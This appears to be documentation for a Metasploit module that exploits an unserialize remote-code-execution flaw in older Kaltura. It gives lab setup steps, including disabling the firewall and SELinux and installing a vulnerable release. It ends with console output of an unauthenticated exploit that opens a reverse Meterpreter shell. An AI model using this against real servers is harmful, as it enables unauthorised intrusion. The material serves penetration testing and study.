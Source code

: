 ## Vulnerable Application

This module exploits an Object Injection vulnerability in Kaltura. By exploiting this vulnerability, unauthenticated users can execute arbitrary code under the context of the web server user.

Kaltura has a module named keditorservices that takes user input and then uses it as an unserialized function parameter. The constructed object is based on the SektionEins Zend code execution POP chain PoC, with a minor modification to ensure Kaltura processes it and the Zend_Log function's __destruct() method is called. Kaltura versions prior to 11.1.0-2 are affected by this issue.

**Vulnerable Application Installation Steps**

Kaltura has their own RPM and/or DEB packages to help us to install it without any issue. Following steps are slightly different than official wiki in order to install the vulnerable packages.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Install CentOS-6 x64 and run `yum update -y` in order to fetch and install the latest packages. Also setting the hostname to something like _kalturahack.dev_ would be wise, because it will be used during Kaltura installation.
2. Disable iptables and selinux. 
```
iptables -F
service iptables stop
chkconfig iptables off
setenforce permissive
(selinux will be enabled on reboot unless editing /etc/selinux/config file.)
```
3. Install following pre-requisites.
* PHP 5.3.n, 5.4.n, 5.5.n, 5.6.n [the official distro repo version]
* MySQL/MariaDB [the official distro repo version]. Please make sure your MySQL is configured not to enforce strict mode.
* JRE 1.7.n (openjdk can be used)

4. Install Kaltura yum repo.
```
rpm -ihv http://installrepo.kaltura.org/releases/kaltura-release.noarch.rpm
```

5. Kaltura repo is configured for the latest version by default. We need to change it to one of the vulnerable releases. Thus, open `/etc/yum.repos.d/kaltura.repo` file with your favorite text editor and perform following replacement.

Original file. (# lines just ignored)
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```
After changes.
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```

6. Install kaltura-server. This will take a while. 
```
yum clean all
yum install kaltura-server
```

7. Run the following commands in order to initiate the database and start necessary services.
```
/opt/kaltura/bin/kaltura-mysql-settings.sh
service memcached restart
service ntpd restart
chkconfig memcached on
chkconfig ntpd on
```

8. Start the kaltura configuration script `/opt/kaltura/bin/kaltura-config-all.sh` .

```
[Email\NO]: "<your email address>"
CDN hostname [kalrpm.lcl]: "<your hostname>"
Apache virtual hostname [kalrpm.lcl]: "<your hostname>"
Which port will this Vhost listen on [80]?:

DB hostname [127.0.0.1]: "<127.0.0.1>"
DB port [3306]: "<3306>"
MySQL super user [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<root>"
MySQL super user passwd [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<your root password>"
Analytics DB hostname [127.0.0.1]: "<127.0.0.1>"
Analytics DB port [3306]: "<3306>"
Sphinx hostname [127.0.0.1]: "<127.0.0.1>"

Secondary Sphinx hostname: [leave empty if none] "<empty>"

VOD packager hostname [kalrpm.lcl]: "<http://kaltura-nginx-hostname>"

VOD packager port to listen on [88]: 

Service URL [http://kalrpm.lcl:80]: "<http://apache-hostname:80>"

Kaltura Admin user (email address): "<your email address>"
Admin user login password (must be minimum 8 chars and include at least one of each: upper-case, lower-case, number and a special character): "<your kaltura admin password>"
Confirm passwd: "<your kaltura admin password>"

Your time zone [see http://php.net/date.timezone], or press enter for [Europe/Amsterdam]: "<your timezone>"
How would you like to name your system (this name will show as the From field in emails sent by the system) [Kaltura Video Platform]? "<your preferred system name>"
Your website Contact Us URL [http://corp.kaltura.com/company/contact-us]: "<your contact URL>"
'Contact us' phone number [+1 800 871 5224]? "<your phone numer>"

Is your Apache working with SSL?[Y/n] "<n>"
It is recommended that you do work using HTTPs. Would you like to continue anyway?[N/y] "<y>"
Which port will this Vhost listen on? [80] "<80>"
Please select one of the following options [0]: "<0>"
```

I do recommend that leaving all default values as is except SSL. You may want to install Kaltura without SSL support.

These steps are slightly different than following instruction.
[http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/](http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/)

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/unix/webapp/kaltura_unserialize_rce 
msf exploit(kaltura_unserialize_rce) > set RHOST centoshacker.dev
RHOST => centoshacker.dev
msf exploit(kaltura_unserialize_rce) > check
[+] centoshacker.dev:80 The target is vulnerable.
msf exploit(kaltura_unserialize_rce) > exploit 

[*] Started reverse TCP handler on 10.0.0.1:4444 
[*] Sending stage (33721 bytes) to 10.0.0.134
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.134:50312) at 2016-09-17 22:56:44 +0300

meterpreter > pwd
/opt/kaltura/app/alpha/web
meterpreter >
```

